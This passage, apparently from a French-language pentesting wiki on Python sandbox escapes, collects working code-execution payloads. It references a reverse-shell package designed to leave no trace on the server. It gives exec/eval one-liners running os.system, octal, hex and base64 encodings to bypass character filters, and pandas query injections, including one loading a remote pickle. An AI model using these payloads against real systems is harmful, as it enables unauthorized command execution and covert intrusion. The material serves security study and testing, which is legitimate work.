 {% file src="../../../.gitbook/assets/reverse.tar.gz" %}

{% hint style="info" %}
Ce package s'appelle `Reverse`. Cependant, il a été spécialement conçu pour que lorsque vous quittez le shell inversé, le reste de l'installation échoue, de sorte que vous **ne laisserez aucun package python supplémentaire installé sur le serveur** lorsque vous partez.
{% endhint %}

## Évaluation de code python

{% hint style="warning" %}
Notez que `exec` permet les chaînes multilignes et ";", mais pas `eval` (vérifiez l'opérateur walrus)
{% endhint %}

Si certains caractères sont interdits, vous pouvez utiliser la représentation **hexadécimale/octale/B64** pour **contourner** la restriction :
```python
exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
```

```python
#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```
### Autres bibliothèques permettant d'évaluer du code Python
```python
#Pandas
import pandas as pd
df = pd.read_csv("currency-rates.csv")
df.query('@__builtins__.__import__("os").system("ls")')
df.query("@pd.io.common.os.popen('ls').read()")
df.query("@pd.read_pickle('http://0.0.0.0:6334/output.exploit')")

# The previous options work but others you might try give the error:
# Only named functions are supported
# Like:
df.query("@pd.annotations.__class__.__init__.__globals__['__builtins__']['eval']('print(1)')")
```
## Opérateurs et astuces courtes
